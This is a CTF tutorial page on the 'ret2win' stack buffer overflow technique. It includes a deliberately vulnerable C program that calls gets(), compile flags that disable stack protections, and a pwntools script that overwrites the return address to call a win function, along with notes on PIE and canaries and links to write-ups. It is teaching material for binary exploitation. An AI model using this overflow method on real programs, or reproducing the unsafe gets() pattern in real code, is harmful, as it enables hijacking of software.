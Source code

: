 # Ret2win

## Basic Information

**Ret2win** challenges are a popular category in **Capture The Flag (CTF)** competitions, particularly in tasks that involve **binary exploitation**. The goal is to exploit a vulnerability in a given binary to execute a specific, uninvoked function within the binary, often named something like `win`, `flag`, etc. This function, when executed, usually prints out a flag or a success message. The challenge typically involves overwriting the **return address** on the stack to divert execution flow to the desired function. Here's a more detailed explanation with examples:

### C Example

Consider a simple C program with a vulnerability and a `win` function that we intend to call:

```c
#include <stdio.h>
#include <string.h>

void win() {
    printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
    char buf[64];
    gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
    vulnerable_function();
    return 0;
}
```

To compile this program without stack protections and with **ASLR** disabled, you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

- `-m32`: Compile the program as a 32-bit binary (this is optional but common in CTF challenges).
- `-fno-stack-protector`: Disable protections against stack overflows.
- `-z execstack`: Allow execution of code on the stack.
- `-no-pie`: Disable Position Independent Executable to ensure that the address of the `win` function does not change.
- `-o vulnerable`: Name the output file `vulnerable`.

### Python Exploit using Pwntools

For the exploit, we'll use **pwntools**, a powerful CTF framework for writing exploits. The exploit script will create a payload to overflow the buffer and overwrite the return address with the address of the `win` function.

```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```

To find the address of the `win` function, you can use **gdb**, **objdump**, or any other tool that allows you to inspect binary files. For instance, with `objdump`, you could use:

```sh
objdump -d vulnerable | grep win
```

This command will show you the assembly of the `win` function, including its starting address.

The Python script sends a carefully crafted message that, when processed by the `vulnerable_function`, overflows the buffer and overwrites the return address on the stack with the address of `win`. When `vulnerable_function` returns, instead of returning to `main` or exiting, it jumps to `win`, and the message is printed.

## Protections

- [**PIE**](../../common-binary-protections-and-bypasses/pie/index.html) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded. In some cases, when the function that causes the overflow is `read` or similar, you can do a **Partial Overwrite** of 1 or 2 bytes to change the return address to be the win function. Because of how ASLR works, the last three hex nibbles are not randomized, so there is a **1/16 chance** (1 nibble) to get the correct return address.
- [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/index.html) should be also disabled or the compromised EIP return address won't never be followed.

## Other examples & References

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
  - 32bit, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
  - 64 bits with ASLR, with a leak of the bin address
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
  - 64 bits, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
  - 32 bits, no ASLR, double small overflow, first to overflow the stack and enlarge the size of the second overflow
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
  - 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
- [https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html](https://guyinatuxedo.github.io/15-partial_overwrite/tamu19_pwn2/index.html)
  - 32 bit, nx, nothing else, partial overwrite of EIP (1Byte) to call the win function
- [https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial_overwrite/tuctf17_vulnchat2/index.html)
  - 32 bit, nx, nothing else, partial overwrite of EIP (1Byte) to call the win function
- [https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html](https://guyinatuxedo.github.io/35-integer_exploitation/int_overflow_post/index.html)
  - The program is only validating the last byte of a number to check for the size of the input, therefore it's possible to add any zie as long as the last byte is inside the allowed range. Then, the input creates a buffer overflow exploited with a ret2win.
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
  - 64 bit, relro, no canary, nx, pie. Partial overwrite to call the win function (ret2win)
- [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
  - arm64, PIE, it gives a PIE leak the win function is actually 2 functions so ROP gadget that calls 2 functions
- [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
  - ARM64, off-by-one to call a win function

## ARM64 Example

[[ret2win-arm64.md]]

